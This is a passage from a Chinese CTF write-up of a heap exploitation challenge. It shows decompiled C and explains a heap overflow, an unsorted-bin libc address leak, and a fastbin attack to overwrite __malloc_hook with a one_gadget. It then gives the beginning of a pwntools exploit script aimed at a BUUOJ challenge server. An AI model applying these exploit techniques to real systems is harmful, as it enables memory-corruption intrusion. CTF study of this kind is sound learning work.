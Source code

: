 Dump打印内容，注意它是根据Allocate时存储的size来决定打印多少的，这种结构10个里面7个有问题。

```c
int __fastcall Dump(__int64 a1)
{
  int result; // eax
  int v2; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = GetInput();
  v2 = result;
  if ( result >= 0 && result <= 15 )
  {
    result = *(_DWORD *)(24LL * result + a1);
    if ( result == 1 )
    {
      puts("Content: ");
      sub_130F(*(_QWORD *)(24LL * v2 + a1 + 16), *(_QWORD *)(24LL * v2 + a1 + 8));
      result = puts(byte_14F1);
    }
  }
  return result;
}
```

看来漏洞只有个堆溢出。由于开了全relro，不能用普通的改got表为system的方法了，要想办法往`__malloc_hook`里填one_gadget地址。这就很容易想到fastbin attack中的一个技术——让malloc返回任意地址处的堆块。如果我们能让malloc返回`__malloc_hook`周围地址的堆块，就能改写`__malloc_hook`了。堆溢出在手，这点不难办到，通过溢出修改一个堆块的fd指针，由于malloc根据fd指针取堆块，所以如果我们把fd指针改到`__malloc_hook`附近，就能分配到那块区域了。

还有个问题，这次有pie，我们需要先泄露地址。这里有个关于[unsorted bin泄露地址](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/unsorted-bin-attack/#unsorted-bin-leak)的小技巧：当unsorted bin中只有一个堆块时，其fd与bk都是main_arena + offset。意味着如果我们能打印出一个已经进入unsorted bin的堆块的fd或者bk，减去某个偏移就时main_arena的地址了。得到main_arena的地址再减去main_arena的偏移就是libc_base。这个减去的值一般是0x3c4b78，包含offset和main_arena本身的偏移。最后的问题时我们怎么打印出fd和bk？这就要用到chunk extend and overlapping了。直接看exp吧，大佬讲的很清楚。

```python
from pwn import *
context.log_level = 'debug'
p=remote("node4.buuoj.cn",29543)
def add(size):
    p.sendlineafter('Command: ','1')
    p.sendlineafter('Size: ',str(size))
def edit(idx,content):
    p.sendlineafter('Command: ','2')
    p.sendlineafter('Index: ',str(idx))
    p.sendlineafter('Size: ',str(len(content)))
    p.sendlineafter('Content: ',content)
def delete(idx):
    p.sendlineafter('Command: ','3')
    p.sendlineafter('Index: ',str(idx))
def show(idx):
    p.sendlineafter('Command: ','4')
    p.sendlineafter('Index: ',str(idx))
#---------------这3个一组，是为了泄漏libc地址----------#
add(0x10)#0
add(0x10)#1
add(0x80)#2
#---------------这3个一组，是为了fastbin attack 覆写malloc hook 为one_gadget ----------#
add(0x30)#3
add(0x68)#4
add(0x10)#5
#------------------泄漏libc地址------------------------------------#
edit(0,p64(0)*3+p64(0xb1))#通过edit(0)来改变chunk1的大小，使其包裹chunk2
delete(1)
add(0xa0)#1   delete再add回来使为了改变结构体中的size值，因为show的长度是根据这个值来定的。
edit(1,p64(0)*3+p64(0x91))  #因为通过calloc申请回chunk1的所以chunk2被清零，我们要根据原来chunk2的内容恢复chunk2。，
```